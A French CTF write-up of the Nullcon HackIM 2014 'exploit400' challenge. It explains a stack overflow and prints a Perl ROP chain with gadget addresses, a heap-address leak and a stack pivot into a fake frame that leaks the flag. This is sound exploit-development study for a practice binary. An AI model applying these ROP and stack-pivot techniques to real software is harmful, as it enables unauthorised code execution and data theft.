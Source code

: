 ```yaml
---
title: NULLCON-CTF-2014 - Exploit 400
date: 2014-01-26
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](https://repo.t0x0sh.org/ctf/2014/nullcon/exploit400)
Et la source ici : [exploit400.c](https://repo.t0x0sh.org/ctf/2014/nullcon/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

```
	RELRO      STACK CANARY      NX            PIE         RPATH      RUNPATH      FILE
	No RELRO   No canary found   NX enabled    No PIE      No RPATH   No RUNPATH   exploit400
```

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.


```perl
	$payload .= pack('L', 0x080483f0); # malloc@plt
	$payload .= pack('L', 0x080483a0); # pop;ret
	$payload .= pack('L', 0x100); # size
```

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

```perl
	$payload .= pack('L', 0x080483a0); # pop ebx; ret
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax
```

Je m'envois alors cette valeur via la fonction write

```perl
	$payload .= pack('L', 0x08048440); # write@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000001); # stdout
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 0x130); # size

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret
```

Envois du payload

```perl
	print $sock $payload;
```

Mise à zéro d'une variable en mémoire (premier read)

```perl
	print $sock "\x00\x00\x00\x00";
```

Lecture de l'adresse du HEAP envoyée

```perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);
```

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

```perl
	$stack .= pack('L', 0x08048440); # write@plt
	$stack .= pack('L', 0x080486a7); # pop3;ret
	$stack .= pack('L', 0x00000001); # stdout
	$stack .= pack('L', $r-0x48); # FLAG
	$stack .= pack('L', 100); # size

	print $sock $stack;
```

Réception du flag et validation du challenge !!!

```perl
	while($r = <$sock>) {
		print $r;
	}
```

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/2014/nullcon/exploit400.pl)
